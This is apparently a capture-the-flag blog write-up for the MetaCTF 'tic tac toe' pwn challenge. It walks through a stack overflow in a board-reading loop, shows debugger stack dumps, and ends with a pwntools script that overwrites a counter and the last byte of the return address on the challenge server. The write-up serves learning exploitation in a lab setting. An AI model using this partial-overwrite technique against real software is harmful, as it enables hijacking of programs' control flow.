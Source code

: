 ```yaml
---
title: "[pwn] tic tac toe"
categories:
  - Blog
tags:
  - pwn
  - ctf
  - overwiteLastByteRet
---
```


[tic tac toe [metaCTF]](https://github.com/v13td0x/Q4_21/raw/main/meta/pwn/Tic%20tac%20toe/tic_tac_toe_Release.tar.gz)

> Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
> 

```c
int read_board(){
	char board[3][3]; // $sbp-0xa
	char counter = 0; // $rbp-0x1

	//read the board in
	while (counter < 9){
		while(1){
			read(0, (char*)board+counter++, 1);

			if (*((char *)board+counter-1) == '\n')
			{
				counter--;
				continue;
			}
			if (*((char*)board + counter-1) == 'o' || *((char*)board + counter-1) == 'O' ||*((char*)board + counter-1) == '0' || *((char*)board + counter-1) == 'x' || *((char*)board + counter-1) == 'X'){
				break;
			}
			puts("Bad Character, try again");
		}
	}
// if last byte was an x, X, o, O, or 0 program will check counter<9,
// otherwise continue read from input and write in stack at board[counter]
```

```bash
02:0010│ rsp     0x7fff2059f840 ◂— 0x767655b24517f0a0
03:0018│         0x7fff2059f848 ◂— 0x1376767676767676
04:0020│ rbp     0x7fff2059f850 —▸ 0x7fff2059f860 ◂— 0x0
05:0028│ rax rsi 0x7fff2059f858 —▸ 0x55b24517f645 (main+60) # ret
pwndbg> x $rbp-0x1
0x7fff2059f84f: 0x007fff2059f86013 # counter = 13
pwndbg> x/x $rbp+8
0x7fff3d59caf8: 0x45 #last byte of ret addr
```

your strategy is over last byte of ret addr 0x45→ `0x4f`, we will overwrite counter var = 0x12++. Because `board[counter=0x13]` = last byte of ret addr (0xa bytes of board + 8 byte rbp + 1 last byte ret). 

> Remember: we need 9 byte `not` in {x, X, 0, o, O} to not check counter and '\n' to increase counter var. Due to overwrite `counter` var
> 

```python
# xpl.py
from pwn import *

p = remote("host.cg21.metaproblems.com", 3120)
p.send(b'v'*9 + b'\x12\x4f')
p.stream()
```
